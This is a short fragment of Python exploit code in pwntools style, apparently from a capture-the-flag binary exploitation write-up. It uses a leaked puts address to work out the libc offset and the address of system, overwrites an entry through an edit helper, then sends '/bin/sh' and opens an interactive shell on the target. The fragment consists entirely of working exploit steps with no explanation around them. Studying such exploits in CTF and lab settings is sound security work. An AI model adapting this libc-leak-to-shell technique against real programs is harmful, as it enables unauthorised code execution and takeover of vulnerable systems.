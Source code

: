 ```python
puts_real = u64(s.recvline(keepends=False)[0:8].ljust(8,'\x00'))
log.success("Puts_real:"+hex(puts_real))
offset = puts_real - libc.symbols['puts']
log.success("Offset:"+hex(offset))
system_addr = libc.symbols['system']+offset
log.success("System_addr:"+hex(system_addr))
edit(3,len(p64(system_addr)),p64(system_addr))
s.sendline("/bin/sh")
s.interactive()

```

